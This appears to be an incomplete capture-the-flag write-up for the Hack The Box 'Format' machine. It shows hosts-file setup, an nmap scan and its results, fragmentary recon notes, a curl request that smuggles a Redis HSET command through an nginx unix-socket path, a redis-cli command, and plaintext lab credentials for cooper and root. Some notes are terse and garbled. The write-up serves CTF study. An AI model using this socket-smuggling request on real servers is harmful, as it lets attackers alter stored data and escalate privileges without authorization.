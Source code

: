 # #1 Introduction
<img width="693" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/824447ee-ce67-4ed7-8a3c-6fec9beb1c37">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx format.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- format.htb
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http    nginx 1.18.0
3000/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)


port 80 : web app named microblog
port 3000 : gitea 1.17.3
-> user : cooper

bulletproof seems to be vulnerable
we can see a subdomaine sunny that have edit

curl -X HSET http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:mateor%20pro%20true%20/HTTP/1.1 

redis-cli -s /var/run/redis/redis.sock
cooper.dooper

cooper:zooperdoopercooper

root:unCR4ckaBL3Pa$$w0rd
